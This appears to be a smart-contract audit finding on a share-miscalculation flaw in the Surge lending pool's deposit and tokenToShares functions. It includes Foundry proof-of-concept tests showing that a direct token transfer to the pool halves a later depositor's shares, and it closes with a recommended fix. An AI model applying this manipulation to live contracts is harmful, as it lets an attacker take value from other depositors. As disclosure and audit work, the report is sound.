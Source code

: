 SunSec

high

# tokenToShares miscalculation can leads to fund loss

## Summary

## Vulnerability Detail
There is a miscalculation in a pool contract's math `tokenToShares` using in function deposit(), Attacker can manipulated calculation by sending loantoken directly to pool, resulting miscalculated shares. it can lead to a vulnerability that can result in users who deposit can get incorrect shares, resulting in funds loss.
 
## Impact
Share miscalculation can resulting in funds loss.
In short :
```solidity
function tokenToShares (uint _tokenAmount, uint _supplied, uint _sharesTotalSupply, bool roundUpCheck) internal pure returns (uint)
...
 uint256 _loanTokenBalance = LOAN_TOKEN.balanceOf(address(this)); // Attacker can can control this balance.
 uint256 _supplied = _totalDebt + _loanTokenBalance;  // Manipulated _supplied 
 uint256 shares = (_tokenAmount * _sharesTotalSupply) / _supplied; // Miscalculation
```

Check detail and poc below
## Code Snippet
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L307-L326
```solidity
    function deposit(uint amount) external {
        uint _loanTokenBalance = LOAN_TOKEN.balanceOf(address(this)); //@audit attacker can control this balance.
        (address _feeRecipient, uint _feeMantissa) = FACTORY.getFee();
        (  
            uint _currentTotalSupply,
            uint _accruedFeeShares,
            uint _currentCollateralRatioMantissa,
            uint _currentTotalDebt
        ) = getCurrentState(
            _loanTokenBalance,
            _feeMantissa,
            lastCollateralRatioMantissa,
            totalSupply,
            lastAccrueInterestTime,
            lastTotalDebt
        );

        uint _shares = tokenToShares(amount, (_currentTotalDebt + _loanTokenBalance), _currentTotalSupply, false); //@audit issue in tokenToSahres.
        require(_shares > 0, "Pool: 0 shares");
        _currentTotalSupply += _shares;
```
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199-L203
```solidity
    function tokenToShares (uint _tokenAmount, uint _supplied, uint _sharesTotalSupply, bool roundUpCheck) internal pure returns (uint) {
        if(_supplied == 0) return _tokenAmount;
        uint shares = _tokenAmount * _sharesTotalSupply / _supplied;  //@audit  attacker can manipulated calculation by sending loantoken directly to pool, resulting miscalculated shares.
        if(roundUpCheck && shares * _supplied < _tokenAmount * _sharesTotalSupply) shares++;
        return shares;
    }

```
POC:
Without manipulation, Alice will get expected shares. 
```solidity
function testDepositWithdraw() external {
    uint256 amount = 1000e18;
    MockERC20 collateralToken = new MockERC20(0, 18);
    MockERC20 loanToken = new MockERC20(1010e18, 18);
    loanToken.transfer(address(alice), 10e18);
    Pool pool = factory.deploySurgePool(
      IERC20(address(collateralToken)),
      IERC20(address(loanToken)),
      1e18,
      0.8e18,
      1e15,
      1e15,
      0.1e18,
      0.4e18,
      0.6e18
    );

    //emit log_named_uint("Mint share", pool.tokenToShares(1, 0, 0, false));
    //emit log_named_uint("LoanToken balance", loanToken.balanceOf(address(this)));

    loanToken.approve(address(pool), amount);

    pool.deposit(1e18);
    emit log_named_uint(
      "First 1e18 depost, our total share:",
      pool.balanceOf(address(this))
    );

    vm.prank(alice);
    loanToken.approve(address(pool), 3e18);
    vm.prank(alice);
    pool.deposit(3e18);
    emit log_named_uint(
      "Alice 3e18 deposit, get total share:",
      pool.balanceOf(address(alice))
    );

[PASS] testDepositWithdraw() (gas: 3390891)
Logs:
  _shares: 1000000000000000000
  _currentTotalSupply: 1000000000000000000
  First 1e18 depost, our total share:: 1000000000000000000
  _shares: 3000000000000000000
  _currentTotalSupply: 4000000000000000000
  Alice 3e18 deposit, get total share:: 3000000000000000000
```
Attacker manipulate pool, Alice will get unexpected shares. 
```solidity
function testDepositManipulation() external {
    uint256 amount = 1000e18;
    MockERC20 collateralToken = new MockERC20(0, 18);
    MockERC20 loanToken = new MockERC20(1010e18, 18);
    loanToken.transfer(address(alice), 10e18);
    Pool pool = factory.deploySurgePool(
      IERC20(address(collateralToken)),
      IERC20(address(loanToken)),
      1e18,
      0.8e18,
      1e15,
      1e15,
      0.1e18,
      0.4e18,
      0.6e18
    );

    //emit log_named_uint("Mint share", pool.tokenToShares(1, 0, 0, false));
    //emit log_named_uint("LoanToken balance", loanToken.balanceOf(address(this)));

    loanToken.approve(address(pool), amount);

    pool.deposit(1e18);
    loanToken.transfer(address(pool), 1e18); // manipulated calculation by sending loantoken directly to pool.

    emit log_named_uint(
      "First 1e18 depost, our total share:",
      pool.balanceOf(address(this))
    );

    vm.prank(alice);
    loanToken.approve(address(pool), 3e18);
    vm.prank(alice);
    pool.deposit(3e18);
    emit log_named_uint(
      "Alice 3e18 deposit, get total share:",
      pool.balanceOf(address(alice))
    );
[PASS] testDepositManipulation() (gas: 3392574)
Logs:
  _shares: 1000000000000000000
  _currentTotalSupply: 1000000000000000000
  First 1e18 depost, our total share:: 1000000000000000000
  _shares: 1500000000000000000
  _currentTotalSupply: 2500000000000000000
  Alice 3e18 deposit, get total share:: 1500000000000000000 
//Alice expect to get 3000000000000000000 shares. But because attacker manipulated calculation so Alice only receive 1500000000000000000 shares.

```
## Tool used
Manual Review

## Recommendation
Using total loantoken deposited as `_loanTokenBalance ` calculate in `_supplied `instead of loantokan balance in the pool.
